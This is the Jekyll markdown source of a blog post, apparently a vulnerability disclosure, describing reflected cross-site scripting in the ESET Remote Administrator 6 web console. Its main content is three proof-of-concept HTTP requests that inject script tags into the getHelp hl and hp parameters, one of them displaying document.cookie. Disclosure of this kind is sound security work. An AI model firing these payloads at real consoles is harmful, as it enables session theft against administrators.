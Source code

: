 ```yaml
---
layout: post
title:  "Cross-Site Scripting (XSS) in ESET Remote Administrator"
date:   2019-01-21 03:43:45 +0700
categories: [cve]
---
```

I found that XSS vulnerabilities during the pentest back in 2016, but never reported it to the vendor. According to exloit-db.com/search or cxsecurity.com/search this has never been reported, so I'm catching up now in 2019 with old stuff.

Vendor: ESET, LLC, d/b/a ESET North America
Product: ESET Remote Administrator
Version affected: 6

#### Product description:
ESET Remote Administrator allows to oversee the entire network, including workstations, servers and smartphones from a single point. It can be installed on Windows as well as Linux servers and also comes as a Virtual Appliance. It handles
communication with agents, and collects and stores application data in the database.

#### Cross-Site Scripting, Reflected
* CVE: CVE-2019-xxxx
* CWE: CWE-79


A Cross Site Scripting vulnerability exists in ESET Remote Administrator hl, hp parameters. It is possible to inject arbitrary JavaScript into requests which are ultimately executed by the user browser.


## Proof of Concept 1
{% highlight ruby %}
GET /era/webconsole/getHelp?hl=en-US&hp=fs_login_screen.htm"/><script>alert(document.cookie)</script> HTTP/1.1
Accept: */*
Accept-Language: en-US
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; Trident/7.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; .NET4.0E)
Host: a.b.c.d
Connection: Keep-Alive
Cookie: JSESSIONID=02EB9FB09F74291DF91AE98411F9ECAF
{% endhighlight %}

## Proof of Concept 2
{% highlight ruby %}
GET /era/webconsole/getHelp?hl=en-US"/><script>alert('xss')</script>&hp=fs_login_screen.htm HTTP/1.1
Accept: */*
Accept-Language: en-US
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; Trident/7.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; .NET4.0E)
Host: a.b.c.d
Connection: Keep-Alive
Cookie: JSESSIONID=02EB9FB09F74291DF91AE98411F9ECAF
{% endhighlight %}

## Proof of Concept 3
{% highlight ruby %}
GET /era/webconsole/getHelp?hl="><script>alert('xss')</script> HTTP/1.1
Accept: */*
Accept-Language: en-US
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; Trident/7.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; .NET4.0E)
Host: a.b.c.d
Connection: Keep-Alive
Cookie: JSESSIONID=02EB9FB09F74291DF91AE98411F9ECAF
{% endhighlight %}

#### References:
1. OWASP - https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)
2. https://www.eset.com/au/business/remote-management/remote-administrator/
3. Download the latest trial version - https://support.eset.com/kb6114/?locale=en_US&viewlocale=en_US
